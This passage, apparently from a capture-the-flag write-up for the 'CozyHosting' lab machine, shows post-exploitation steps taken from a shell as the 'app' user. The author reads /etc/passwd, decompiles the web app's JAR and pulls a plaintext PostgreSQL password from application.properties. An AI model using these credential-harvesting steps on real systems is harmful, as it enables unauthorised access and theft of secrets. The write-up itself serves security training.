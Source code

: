 Obtained a shell with "app" user. Such a user is unable to read the *local flag*. A number of intermediate users are identified from the *passwd* file.

```shell
app@cozyhosting:/app$ cat /etc/passwd | grep -i bash
cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

In the "/app" folder is the file "cloudhosting-0.0.1.jar" which represents the webapp on port 80.

```shell
app@cozyhosting:/app$ pwd
/app
app@cozyhosting:/app$ ls -la
total 58856
drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
-rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
```

It downloaded offline the JAR file for in-depth analysis. "jd-gui" was used to decompile the JAR file. From the analysis, it was possible to extract the "application.properties" file that contains the values of the environment variables used by the webapp. The credentials to access the Postgre database used were identified:
- `spring.jpa.database=POSTGRESQL`
- `spring.datasource.platform=postgres`
- `spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting`
- `spring.datasource.username=postgres`
- `spring.datasource.password=Vg&nvzAQ7XxR`

![](img/cozyhosting12.png)
